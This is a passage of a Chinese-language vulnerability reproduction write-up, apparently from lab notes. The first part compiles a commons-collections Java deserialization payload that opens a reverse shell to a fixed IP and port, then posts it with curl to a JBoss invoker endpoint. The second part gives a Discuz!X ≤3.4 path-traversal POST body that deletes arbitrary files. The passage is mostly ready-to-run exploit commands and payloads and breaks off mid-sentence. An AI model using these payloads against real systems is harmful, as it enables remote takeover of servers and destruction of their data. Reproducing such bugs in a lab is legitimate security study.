 使用 Java 反序列化利用工具 JavaDeserH2HC.zip（http://scan.javasec.cn/java/JavaDeserH2HC.zip） 生成 poc.ser

```powershell
#编译运行
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
#生成shell反弹poc
java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 47.102.143.147:222
使用curl向服务器发送POST请求（@filename,从文件中读取数据（包括换行符），将读取的数据进行URL编码，然后发送给HTTP服务器）
curl http://47.102.143.147:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![](/assets/img/posts/5d00edd1279f283233.png)

## Discuz!X ≤3.4 任意文件删除漏洞

`Path:discuz/x3.4-arbitrary-deletion`

### 漏洞复现：

登陆 Discuz!X 搭建的论坛，注册账号，在个人设置界面使用 POST 发送请求：

```php
birthprovince=../../../test.txt&profilesubmit=1&formhash=e3807b55
```

其中 formhash 的值为：
![](/assets/img/posts/5d0334e5b240c14832.png)
发送请求后即刻删除指定的文件: